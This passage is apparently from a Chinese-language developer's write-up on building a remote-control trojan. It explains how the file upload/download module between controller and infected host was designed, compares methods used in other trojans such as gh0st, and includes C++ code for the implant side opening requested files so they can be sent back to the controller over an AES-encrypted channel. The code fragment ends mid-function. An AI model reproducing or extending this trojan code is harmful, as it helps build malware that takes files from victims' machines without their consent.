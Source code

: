 ```c++
			memset(SendBuf, 0, sizeof(SendBuf));
			dwBytesRead = 0;
			Sleep(100);
		}
	}
}
```

## 文件上传下载

接下来描述的上传指主控端向被控端上传，下载指主控端从被控端下载。

其实这个组件涉及的知识不是很多，比较重要点的是做好线程间的同步。

一开始不知道这个文件上传怎么实现好，因为如果复用之前的封包架构的话，对于大文件是比较吃力的，因为没有校验机制，而且要自己处理分片，很容易出错。

然后去读了几个木马的源码。实现的方法各不相同。

有一个是用FTP实现的上传下载。原理是主控端开一个FTP服务器，然后被控端使用API实现上传和下载。但是，FTP的账号和密码是写在被控端源码里的。我一头墨水，妥实没想明白，作者是如何保证FTP的账号和密码是如何避免泄露的，这不一逆向就能拿到了吗？

如果账号和密码是动态传输的，需要的时候主控端再临时传给被控端，这样可以避免逆向泄露账号和密码，但是攻击者只需要伪造文件上传的请求，就可以从主控端那里欺骗得到账号和密码了。

还有一个方案是HTTP实现的，这个我感觉比较适合被控端从主控端下载文件，并不适合主控端从被控端下载文件。因为这种方案，同时要在主控端开一个HTTP(S)服务器，用于接收和发送文件，发送文件还好，一直开放着接口进行通信没太大的安全问题，但是接收文件，必须要慎重，如何区分允许哪个被控端是我允许进行向我发送文件的，这个判断是个值得好好规划的问题，HTTP服务器接受匿名的请求，我感觉很难区分不同的被控端。比如说我要从被控端A下载一个文件，此时A向我发送文件，我接收了，同时被控端B是攻击者伪造的，他一直尝试向我发送文件，当我允许A向我传输文件的瞬间，B也向我传输了文件（因为HTTP服务器无法区分不同用户），任意文件上传还是比较可怕的。这一点深深困扰着我。不知道有没有师傅知道怎么避免这一点，还请赐教。

然后又读了下gh0st的源码，它的实现和我最初抛弃的方案是一样的，即直接自己将文件分片，然后压缩，然后直接在网络中传输。（事实上，它的处理更为巧妙。gh0st的作者直接封装了一个底层的Buffer类，这个类封装了一系列的读写操作，文件的读取分片是自动由这个类完成的，分片的大小就是这是Buffer类的缓冲区大小）

最后我还是选择了原有的方案：复用之前的封包框架，手动将文件分片，然后组成封包，加密后传给另一端。由于我这个是AES-128-CFB加密的，所以速度肯定比不过压缩后无加密直接传输的gh0st。

最大测试的文件是4.3GB，传输有点慢，不过最后md5算了下，文件完整性是没问题的。

```c++
BOOL WINAPI OnRecvPacketFileDownloadInfo(LPVOID lParam) {
	THREAD_PARAM* pThreadParam = (THREAD_PARAM*)lParam;
	CPacket* pPacket = pThreadParam->m_pPacket;
	CModuleFileDownload* pModuleFileDownload = pThreadParam->m_pModuleFileDownload;
	CSocketClient* pSocketClient = pPacket->m_pSocketClient;

	// 接收到了主控端发来的INFO封包，包体：主控端请求下载的被控端文件的路径（MAX_PATH*2 字节）
	WCHAR pszLocalPath[MAX_PATH];
	memcpy(pModuleFileDownload->m_pszLocalPath, pPacket->m_pbPacketBody, pPacket->m_dwPacketBodyLength);

	if (lParam != nullptr) {
		delete lParam;
		lParam = nullptr;
	}

	if (pPacket != nullptr) {
		delete pPacket;
		pPacket = nullptr;
	}

	// 只有文件存在才打开文件
	pModuleFileDownload->m_hFile = CreateFile(pModuleFileDownload->m_pszLocalPath, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);

	// 打开失败
	if (pModuleFileDownload->m_hFile == INVALID_HANDLE_VALUE) {
		// 被控端发往主控端的INFO包体：被控端文件状态（1字节）+ 文件大小（8字节）
		BYTE pbPacketBody[9];
		// TODO 暂时文件打开失败统一状态为0xff, 后续可能会区分文件不存在，文件被占用等不同状态(用GetLastError来实现)
		pbPacketBody[0] = 0xff;			// 0xff表示文件打开失败
```